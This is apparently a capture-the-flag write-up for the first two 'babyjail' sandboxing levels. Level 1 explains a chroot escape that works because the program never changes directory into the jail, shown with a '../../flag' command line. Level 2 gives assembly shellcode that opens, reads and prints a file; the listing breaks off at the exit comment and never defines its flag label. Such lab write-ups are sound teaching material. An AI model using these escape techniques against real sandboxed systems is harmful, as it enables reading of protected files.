 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```



## level 1
> This challenge will chroot into a jail in /tmp/jail-XXXXXX. You will be able to easily read a fake flag file inside this
   jail, not the real flag file outside of it. If you want the real flag, you must escape.
   The only thing you can do in this challenge is read out one single file, as specified by the first argument to the
   program (argv[1]).

- Let's look at the source code.
```
assert(chroot(jail_path) == 0);
```
- Notice that even though the jail has been set, the program did not change directory to `/` and put us in that jail.
- That means we are effectively not in jail.
- If we give it `/flag` as `argv[1]`, it is interpreted as `/tmp/jail/flag`, which gives us the fake flag.
- In order to get the real flag, we have to pass the relative address of the real `/flag` from `/tmp/jail`.
```
hacker@sandboxing-level-1:~$ /challenge/babyjail_level1 ../../flag 
```
- The first `..` escapes from the `/jail` and second `..` escapes from the `/tmp` directory.

&nbsp;

## level 2
> You may open a specified file, as given by the first argument to the program (argv[1]).
> You may upload custom shellcode to do whatever you want.

- We can use the shellcode that we wrote for Shellcode Injection.
```
.global _start
.intel_syntax noprefix

_start:
	# Open syscall
	lea rdi, [rip + flag]
	mov rsi, 0
	mov rdx, 0
	mov rax, 0x02
	syscall

	# Read syscall
	mov rdi, rax
	mov rsi, rsp
	mov rdx, 1000
	mov rax, 0x00
	syscall

	# Write syscall
	mov rdi, 1
	mov rax, 0x01
	syscall

	# Exit syscall
```